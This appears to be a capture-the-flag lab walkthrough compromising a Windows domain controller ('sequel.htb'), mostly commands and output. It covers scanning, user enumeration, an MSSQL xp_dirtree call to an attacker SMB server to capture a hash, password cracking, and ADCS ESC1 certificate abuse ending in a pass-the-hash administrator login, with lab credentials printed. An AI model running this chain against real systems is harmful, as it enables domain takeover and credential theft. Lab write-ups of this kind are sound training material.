







```zsh
ping -c 3 10.10.11.202                                                                                           
PING 10.10.11.202 (10.10.11.202) 56(84) bytes of data.
64 bytes from 10.10.11.202: icmp_seq=1 ttl=127 time=75.9 ms
64 bytes from 10.10.11.202: icmp_seq=2 ttl=127 time=76.8 ms
64 bytes from 10.10.11.202: icmp_seq=3 ttl=127 time=75.0 ms
```

```zsh
sudo nmap -p- --open --min-rate 5000 -v -n -Pn 10.10.11.202 -oG allPorts

```

```zsh
# Nmap 7.95 scan initiated Thu Aug 14 03:41:42 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49710,49726 -oN targeted 10.10.11.202
Nmap scan report for 10.10.11.202
Host is up (0.075s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-14 08:27:06Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-08-14T08:28:45+00:00; +45m27s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-08-14T08:28:44+00:00; +45m26s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-08-14T08:21:19
|_Not valid after:  2055-08-14T08:21:19
|_ssl-date: 2025-08-14T08:28:45+00:00; +45m27s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-08-14T08:28:45+00:00; +45m27s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-14T08:28:44+00:00; +45m26s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49726/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 45m25s, deviation: 1s, median: 45m25s
| smb2-time: 
|   date: 2025-08-14T08:28:01
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 14 03:43:19 2025 -- 1 IP address (1 host up) scanned in 96.92 seconds

```

```zsh
echo "10.10.11.202 dc.sequel.htb sequel.htb" | sudo tee -a /etc/hosts
```

```zsh
nxc smb 10.10.11.202                                                                                                           
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False) 
```

```zsh
nxc smb 10.10.11.202 -u 'guest' -p '' --rid-brute
```

```zsh
cat userst | awk 'NF{print $6}' | sed 's/sequel\\//' > users
```

```d
Tom.Henn
Brandon.Brown
Ryan.Cooper
sql_svc
James.Roberts
Nicole.Thompson
SQLServer2005SQLBrowserUser$DC
```

## AS-REP Roast 

```zsh
impacket-GetNPUsers -no-pass -usersfile users sequel.htb/ 2>/dev/null 
```


```zsh
impacket-mssqlclient sequel.htb/'PublicUser':'GuestUserCantWrite1'@10.10.11.202
```

```zsh
QL (PublicUser  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    upload {from} {to}         - uploads file {from} to the SQLServer host {to}
    show_query                 - show query
    mask_query                 - mask query
    
SQL (PublicUser  guest@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   

tempdb                   0   

model                    0   

msdb                     1   

SQL (PublicUser  guest@master)> 
```

```zsh
 impacket-smbserver racc0x $(pwd) -smb2support
```

```zsh
SQL (PublicUser  guest@master)> EXEC Master.dbo.xp_dirtree"\\10.10.14.5\9090",1,1;
```



```zsh
john hash -w=/usr/share/wordlists/rockyou.txt 
```



```zsh
sql_svc
REGGIE1234ronnie
```

```zsh
nxc smb 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'

SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.202    445    DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie 
```

```zsh
nxc wirm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'

WINRM       10.10.11.202    5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

```zsh
nxc smb 10.10.11.202 -u 'ryan.cooper' -p 'NuclearMosquito3'

SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.202    445    DC               [+] sequel.htb\ryan.cooper:NuclearMosquito3 
```



## PrivEsc
### winPEAS



## ADCS - ESC1

```zsh
certipy-ad find -vulnerable -u ryan.cooper -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -stdout
```


```zsh
certipy-ad req -u Ryan.cooper@10.10.11.202 -dc-ip 10.10.11.202 -p "NuclearMosquito3" -template UserAuthentication -upn administrator@sequel.htb -ca 'sequel-DC-CA'
```

```zsh
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 13
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

```zsh
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

```zsh
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

Verificamos credenciales



```zsh
evil-winrm -i 10.10.11.202 -u 'administrator' -H ':a52f78e4c751e5f5e17e1e9f3e58f4ee'
```

